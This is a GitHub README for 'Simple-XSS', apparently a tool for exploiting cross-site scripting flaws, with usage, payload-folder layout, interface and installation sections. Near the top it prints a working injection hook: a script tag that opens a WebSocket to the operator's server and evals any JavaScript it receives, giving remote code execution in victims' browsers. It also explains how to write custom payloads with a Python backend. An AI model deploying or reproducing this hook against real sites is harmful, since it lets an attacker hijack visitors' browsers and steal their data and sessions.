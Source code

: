 # Simple-XSS

Simple-XSS is a multiplatform XSS vulnerability exploiter.

## Algorithm

## Usage

### Hook

> _Hooks folder: [hooks](hooks)_


**Hook** is an HTML code that can be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}'); c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a variable: {{environment.public_url}}. You can read more about
this [below](#Internal-Objects)._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

_To create custom payload, follow these steps:_

- Create payload folder in [.\payloads](payloads) and go into

```shell
cd payloads
mkdir my_payload
cd my_payload
```

- Then create main file

```shell
echo "alert(1)" > payload.js
```

- Create package file (not required)

```shell
echo "name = 'My Payload'" > package.toml
```

- Create init python file (not required)

```shell
echo "print('Hello, World!')" > init.py
```

### Internal-Objects

**Internal objects** are transferred to hook & payload main files using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

As you can see above it's used in example of hook code.

#### Environment

#### Metadata

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command-Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
